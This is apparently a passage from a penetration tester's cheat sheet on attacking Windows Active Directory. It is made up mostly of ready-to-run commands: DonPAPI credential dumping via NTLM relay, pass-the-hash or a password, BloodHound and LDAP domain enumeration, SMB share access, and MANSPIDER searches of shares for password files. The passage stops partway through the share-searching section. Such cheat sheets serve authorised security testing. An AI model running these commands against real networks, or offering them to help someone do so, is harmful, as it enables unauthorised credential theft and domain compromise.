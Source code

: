 ### Donpapi

* Relay

```bash
sudo proxychains python DonPAPI.py DOMAIN/USER@IP -o DonPAPI_Relay -no-pass
```

* Hash

```bash
sudo DonPAPI --hashes <LM>:<NT> DOMAIN/USER@IP -o DonPAPI_Relay
```

* Password

```bash
sudo DonPAPI DOMAIN/USER:PASSWORD@IP -o DonPAPI_Relay
```

## With valid creds:

### [Bloodhound.py](http://bloodhound.py/)

Bring the .json files into Bloodhound

```bash
sudo bloodhound-python -u USER -p PASSWORD -ns DNS Server -d DOMAIN -c All
```

### LDAPDomainDump

```bash
sudo ldapdomaindump -u DOMAIN\\USER -p PASSWORD IP
```

### Look at SMB shares

Can be used if it's world readable/doesn't require creds

```bash
smbclient //IP/SHARE -U DOMAIN/USERNAME
smbclient //IP/SHARE -U DOMAIN/USERNAME -P PASSWORD
```

### Scan Shares for Files

### [Manspider](https://github.com/blacklanternsecurity/MANSPIDER)

* Search hostname/IP for files with "passw" in the name:

```
manspider TARGET -f passw -d DOMAIN -u USER -p 'PASSWORD'
```

* Search for documents containing passwords
